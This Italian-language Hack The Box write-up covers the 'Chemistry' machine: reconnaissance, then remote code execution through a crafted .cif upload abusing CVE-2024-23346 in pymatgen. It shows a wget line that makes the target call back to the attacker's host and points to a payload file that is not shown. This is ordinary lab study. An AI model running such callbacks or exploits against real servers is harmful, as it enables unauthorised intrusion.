

# Chemistry HTB challenge WRITEUP
Made by: [Gianlush](https://github.com/Gianlush/)

## Information Gathering

Come prima cosa si effettua come sempre una scansione `nmap` sull'ip fornito. Si scopre cosi la presenza di un servizio web sulla porta `5000`. 

Qui, non sembrano esserci molti indizi sul tipo di infrastruttura utilizzata, oltre a ciò che è visibile analizzando le richiesta HTTP con BurpSuite, ad esempio l'header: `Server: Werkzeug/3.0.3 Python/3.9.5`. 

### Possibili punti di attacco
Ci si può registrare ed effettuare login. Ho provato ad eseguire `SQLi` e ad inserire vari altri caratteri speciali senza però alcun risultato.

La WebApp consente l'upload di un file `.cif` che rappresenta le caratteristiche fisiche di un cristallo. Ho provato l'upload di file malevoli come i `Eicar files` che contengono delle firme che fanno scattare molti antivirus, ma non è successo niente di particolare.

Ho fatto anche vari altri test quali `Web Content discovery` con tool di fuzzing quali `GoBuster` per la ricerca di files, directory o vhosts, senza alcun risultato. Quindi ho deciso di cercare qualcosa in più sul tema della webapp (Crystallographic Information File) e sui file di tipo `.cif` e qualcosa è saltato fuori. Esiste infatti la [CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) riguardante una libreria python che effettua il parsing di file `.cif`.

## Exploit Pymatgen Library (CVE-2024-23346)

La vulnerabilità consente l'esecuzione di comandi in remoto tramite l'upload di un file formattato ad hoc in modo da rompere il processo di parsing. Se il server fa realmente uso di questa libreria (il che è probabile dato che come è stato visto in fase di [Information Gathering](#information-gathering), si fa uso di `Python/3.9.5`).

Il payload finale è contenuto all'interno del file [vuln.cif](./vuln.cif), ed è stato ottenuto dalla [PoC](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) della CVE sopracitata, ma inizialmente per testare la presenza o meno di tale vulnerabilità ho provato a fare eseguire un comando semplice come:

```bash
wget http://{my-ip}:8000
```
Funziona:



## Privilege Escalation


